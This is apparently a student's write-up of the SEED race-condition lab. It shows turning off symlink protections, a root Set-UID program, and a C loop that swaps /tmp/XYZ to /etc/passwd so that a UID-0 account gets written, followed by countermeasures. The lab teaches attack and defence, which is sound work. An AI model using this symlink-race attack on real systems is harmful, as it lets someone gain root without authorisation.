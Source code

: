 
## [Race-Condition Vulnerability Lab](https://seedsecuritylabs.org/Labs_20.04/Software/Race_Condition/)

#### 2 Environment Setup

## 2.1 Turning Off Countermeasures

```sh
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
```

![](image.png)

## 2.2 A Vulnerable Program

**Set up the `Set-UID` program.**

```sh
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
```

![](image-1.png)

#### 3 Task 1: Choosing Our Target

![](image-3.png)
![](image-4.png)

Manually added the new user in the `/etc/passwd` file, and verified that we are able to login to the created user.

![](image-2.png)

Deleted the added line after the task.

#### 4 Task 2: Launching the Race Condition Attack

## 4.1 Task 2.A: Simulating a Slow Machine

Added `sleep(10)` to the `vulp.c` file.

![](image-5.png)

Recompiled the program, and made it into a root owned `Set-UID` program.

![](image-6.png)

Initially, created a `seed` user owned file in the current directory, and created a link pointing to this file to the `/tmp/XYZ` file.

```sh
touch UserFile
ln -sf $(pwd)/UserFile /tmp/XYZ
ls -l /tmp/XYZ
```

Then, executed the vulnerable program.

```sh
echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
```

After the 10 second window started, changed the link pointing to the `/etc/passwd` file.

```sh
ln -sf /etc/passwd /tmp/XYZ
```

![](image-7.png)

Then, verified the contents of the `/etc/passwd` file.

![](image-8.png)

## 4.2 Task 2.B: The Real Attack

Removed the `/etc/passwd` entry and `sleep` line from the `vulp.c`

![](image-9.png)

**Writing the attack program.**

Created a C program and compiled to a binary called `attack`.

```c
#include <unistd.h>

int main() {
	while (1) {
		unlink("/tmp/XYZ");
		symlink("/home/seed/Downloads/Lab14/UserFile", "/tmp/XYZ");

		usleep(10000);

		unlink("/tmp/XYZ");
		symlink("/etc/passwd", "/tmp/XYZ");

		usleep(10000);
	}

	return 0;
}
```

![](image-10.png)

**Running the vulnerable program and monitoring results.**

Updated the `target_process.sh` given in the ZIP file, as shown below.

![](image-11.png)

Opened a new Terminal window, and updated the symbolic link pointing to the `/tmp/XYZ` file.

```sh
ln -sf $(pwd)/UserFile /tmp/XYZ
ls -l /tmp/XYZ
```

![](image-12.png)

Now, in two terminal windows, ran the `target_process.sh` file and the `attack` file.

![](image-13.png)

**Verifying success**

Verified by checking the contents of the `/etc/passwd` file.

![](image-14.png)

## 4.3 Task 2.C: An Improved Attack Method

Verified the permissions of the `/tmp/XYZ` file, but since the owner is not `root`, hence this task is not performed.

![](image-15.png)

#### 5 Task 3: Countermeasures

## 5.1 Task 3.A: Applying the Principle of Least Privilege

```sh
vim vulp.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    uid_t real_uid = getuid(); // Get the real user id
    uid_t eff_uid = geteuid(); // Get the effective user id

    setuid(real_uid);  // Disable the root privilege

    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    setuid(eff_uid);  // if needed, restore the root privilege

    return 0;
}
```

```sh
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
```

**Launching the attack**

![](image-16.png)

Since now the `access`, `fopen`, and `fwrite` system calls do not have permission to write to the root owned `/etc/passwd` file, the attack failed showing the `No Permission` message.

## 5.2 Task 3.B: Using `Ubuntu`’s Built-in Scheme

Enabled Ubuntu's Built-in protection mechanism.

```sh
sudo sysctl -w fs.protected_symlinks=1
sudo sysctl fs.protected_regular=1
```

![](image-17.png)

Launched the attack again.

![](image-18.png)

How does this protection scheme work? 

Symbolic Link Protection only allows `fopen` system call, when the owner of the Symbolic Link match either the follower or the directory owner.

What are the limitations of this scheme?

One limitation of enabling this scheme is that they block a non privileged user from hardlinking / softlinking to files that they do not own.
